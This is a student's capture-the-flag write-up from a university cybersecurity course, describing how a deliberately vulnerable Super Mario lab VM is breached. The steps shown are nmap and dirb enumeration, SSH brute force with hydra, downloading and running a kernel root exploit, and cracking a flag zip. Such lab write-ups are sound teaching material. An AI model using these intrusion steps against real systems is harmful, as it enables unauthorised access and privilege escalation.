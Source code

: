 ## Sant Alice - Cybersecurity Course 2024 - UniTS

# Hack the Super Mario 


## Introduction
The Super Mario challenge is a penetration testing exercise designed to simulate a real-world hacking scenario. There are hidden flags embedded within a specially configured virtual machine (VM). To breach this VM, a Kali linux virtual machine is used as the attacking machine.
This report outlines the step-by-step process followed to breach the target VM, emphasizing the tools and techniques used.

## Technologies and tools used

1. **VirtualBox**   
    This demo uses two virtual machines installed on VirtualBox:
    * **attacking machine**: Kali Debian distribution
    * **target machine**: SuperMario Ubuntu distribution
    
    Both VM are configured to belong to the same network.  

2. **Technologies**   
    * **nmap**: network exploration tool for security auditing
    * **dirb**: web content scanner to find hidden directories and files
    * **john the ripper**: password cracking tool
    * **hydra**: fast and flexible login cracker
    * **ssh**: secure Shell for secure remote login
    * **gcc**: GNU Compiler Collection for compiling exploits
    * **wget**: network downloader for retrieving files from the web
    * **fcrackzip**: fast password cracker for zip files

3. **Configuration**  
    Before starting the local package database is refreshed and the latest versions of available packages are installed on Kali. 

    `apt-get update`  
    `apt-get upgrade`  

    Many of the necessary tools are already included in Kali distribution, but it was necessary to install apache2 (web server), ufw (for managing firewall rules) and fcrackzip.

    `apt-get install apache2`  
    `apt-get install ufw`  
    `ufw allow http`    
    `apt-get install fcrackzip`  


## Implementation

First, both virtual machines are started.

1. **Asset discovery**  
    To understand which network Kali belongs to, the `ifconfig` command is used, revealing that Kali has an IP address of '10.0.2.7'.
     

2. **Enumeration with nmap**   
    The first step in any penetration test is enumeration. Nmap is used to discover open ports and services on the target VM, so we scan our network.

    `nmap 10.0.2.0/24`   

    We discover open ports 22 (SSH) and 8180 (HTTP).

    <p align="center">
    <img src="images/1.png" >
    </p>

3. **Attempt to access the web service**  
    By navigating to http://10.0.2.5:8180 in the browser, the page displays "Welcome to nginx". This response indicates that the server is running the nginx web server software but has not been configured with any specific web content or applications to serve. Therefore, more information gathering is necessary to continue the penetration test.

    <p align="center">
    <img src="images/9.png" >
    </p>

4. **Directory bruteforce with dirb**  
    After identifying the HTTP service, a directory brute-force attack is conducted using dirb to find hidden files and directories.  

    `dirb http://10.0.2.5:8180 /usr/share/wordlists/dirb/big.txt`  

    We discover a file named 'vhosts'.

    <p align="center">
    <img src="images/2.png" >
    </p>

5. **Exploring virtual hosts**  
    We explore 'vhosts' by navigating to http://10.0.2.5:8180/vhosts. This reveals a server name (mario.supermariohost.local), which is then mapped in the local hosts file using the nano editor to facilitate further exploration.

    `cd /etc`  
    `sudo nano hosts`  
    `# Add line: "10.0.2.5 mario.supermariohost.local"`
  
    After adding the hostname, we verify the addition with `cat hosts`.     

    <p align="center">
    <img src="images/4.png" >
    </p>

     Visiting 'mario.supermariohost.local' in the browser displays a Mario browser game that is not functional.

6. **SSH enumeration and dictionary creation**  
    Since ports 22 and 8180 were open and we didn't get much information from the enumeration of port 8180, we now move towards port 22 for SSH enumeration. Using knowledge of famous Super Mario characters (mario, luigi, peach, toad, yoshi), a dictionary of potential usernames is created to retrieve credentials to log in to the SSH server (brute force). We then save the created text file as 'user'.
    
    <p align="center">
    <img src="images/5.png" >
    </p>
    
    John the ripper is then used to generate a password list.

    `john --wordlist:user --rules --stdout > pass`  

    The '--rules' option enables wordlist rules, and '--stdout' specifies that the generated passwords should be outputted with a fixed length. These passwords are then saved to a file named 'pass' on the desktop.


7. **Password cracking with hydra**  
    Using the username dictionary saved as 'user' and the password dictionary generated by john the ripper saved as 'pass', we needed to find the correct combination to log in via SSH. To accomplish this, we used Hydra to brute force the SSH login using the generated lists of usernames and passwords.

    `hydra -L user -P pass 10.0.2.5 ssh`  

    We found one valid credential 'luigi:luigi1'.

    <p align="center">
    <img src="images/6.png" >
    </p>

8. **SSH login and initial access**  
    With the cracked credentials, an SSH session is established to gain access to the VM, and we log in as user 'luigi'.  

    `ssh luigi@10.0.2.5`   
    `# Password: luigi1`

9. **Privilege escalation**  
    We discover that the target system is running Linux kernel version 3.13.0. There is a known exploit for the 3.13.0 overlayfs local root in Ubuntu. We download it inside Kali Linux from https://www.exploit-db.com/exploits/37292/, rename the file to 'mario.c', and move it to the '/var/www/html' directory. In this way we can upload the file to the target machine through apache2.

    `sudo mv /home/kali/Downloads/mario.c /var/www/html`

    Inside the target system we download, compile, and execute the exploit to escalate privileges to root.

    `wget http://10.0.2.7/mario.c`   
    `gcc mario.c -o mario`   
    `./mario`

    We have obtained root privilege (we verify it with the `id` command), and inside the root directory, there is a zip file named 'flag.zip' that is the file we were searching for.
      
    `cd /root`

    We give full permissions (read, write, and execute) to everyone for 'flag.zip' to move it to the '/var/www/html' directory. As before this is done to download the file in Kali machine through nginx.

    `chmod 777 flag.zip`   
    `cp /root/flag.zip /var/www/html`

    <p align="center">
    <img src="images/7.png" >
    </p>

10. **Downloading and cracking the flag zip**   
    Finally from Kali we download the file 'flag.zip' from the URL http://10.0.2.5:8180/ and save it.

    `wget http://10.0.2.5:8180/flag.zip`
    
    We attempt to crack the password of the 'flag.zip' file using a list of common passwords provided in 'rockyou.txt'. The result shows that the password is 'ilovepeach'.
      
    `fcrackzip flag.zip -D -P /user/share/wordlist/rockyou.txt -u`

    We access the content of the zip file which include the 'flag.txt' file and then read the flag contained within.

    `unzip flag.zip`
    `cat flag.txt`

    <p align="center">
    <img src="images/8.png" >
    </p>

## Conclusions
The Super Mario cybersecurity challenge provided an exciting and educational experience, simulating real-world penetration testing scenarios. By using various tools and techniques such as nmap, dirb, john the ripper, hydra, wget, and local exploits, we were able to successfully breach the VM, escalate privileges, and retrieve one hidden flag. This exercise demonstrated the importance of thorough enumeration, effective use of password cracking tools, and leveraging known vulnerabilities for privilege escalation in cybersecurity practices.

## Future developments
There are multiple ways to hack this machine, and an interesting future goal would be to explore all possible methods to gain access. Additionally, the ultimate objective should be to retrieve all the passwords of all the users on this machine, further enhancing our understanding and skills in comprehensive penetration testing.

## References
https://www.hackingarticles.in/hack-super-mario-ctf-challenge/
